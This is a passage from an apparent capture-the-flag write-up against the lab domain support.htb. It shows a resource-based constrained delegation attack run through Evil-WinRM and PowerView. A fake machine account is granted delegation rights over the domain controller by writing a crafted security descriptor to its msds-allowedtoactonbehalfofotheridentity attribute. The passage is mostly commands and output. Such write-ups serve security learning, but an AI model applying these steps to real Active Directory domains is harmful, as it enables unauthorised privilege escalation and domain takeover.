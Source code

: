 Basically we have created a fake computer that is part of the domain and we have full control over it. Now we have to create a security descriptor for the victim machine `msds-allowedtoactonbehalfofotheridentity` flag, note the machine account SID because we will need it for this (`S-1-5-21-1677581083-3380853377-188903654-5101`):

```powershell
*Evil-WinRM* PS C:\Users\support> $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-1677581083-3380853377-188903654-5101)"

*Evil-WinRM* PS C:\Users\support> $SDBytes = New-Object byte[] ($SD.BinaryLength)

*Evil-WinRM* PS C:\Users\support> (New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $SDBytes, 0).DiscretionaryAcl


BinaryLength       : 36
AceQualifier       : AccessAllowed
IsCallback         : False
OpaqueLength       : 0
AccessMask         : 983551
SecurityIdentifier : S-1-5-21-1677581083-3380853377-188903654-5101
AceType            : AccessAllowed
AceFlags           : None
IsInherited        : False
InheritanceFlags   : None
PropagationFlags   : None
AuditFlags         : None

*Evil-WinRM* PS C:\Users\support> $SD.GetBinaryForm($SDBytes, 0)

*Evil-WinRM* PS C:\Users\support> Get-DomainComputer dc | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose
Verbose: [Get-DomainSearcher] search base: LDAP://DC=support,DC=htb
Verbose: [Get-DomainObject] Extracted domain 'support.htb' from 'CN=DC,OU=Domain Controllers,DC=support,DC=htb'
Verbose: [Get-DomainSearcher] search base: LDAP://DC=support,DC=htb
Verbose: [Get-DomainObject] Get-DomainObject filter string: (&(|(distinguishedname=CN=DC,OU=Domain Controllers,DC=support,DC=htb)))
Verbose: [Set-DomainObject] Setting 'msds-allowedtoactonbehalfofotheridentity' to '1 0 4 128 20 0 0 0 0 0 0 0 0 0 0 0 36 0 0 0 1 2 0 0 0 0 0 5 32 0 0 0 32 2 0 0 2 0 44 0 1 0 0 0 0 0 36 0 255 1 15 0 1 5 0 0 0 0 0 5 21 0 0 0 27 219 253 99 129 186 131 201 230 112 66 11 237 19 0 0' for object 'DC$'
```

We can check that the flag is properly set with this command:

```
*Evil-WinRM* PS C:\Users\support> Get-DomainComputer dc -Properties 'msds-allowedtoactonbehalfofotheridentity'

msds-allowedtoactonbehalfofotheridentity
----------------------------------------
{1, 0, 4, 128...}
```
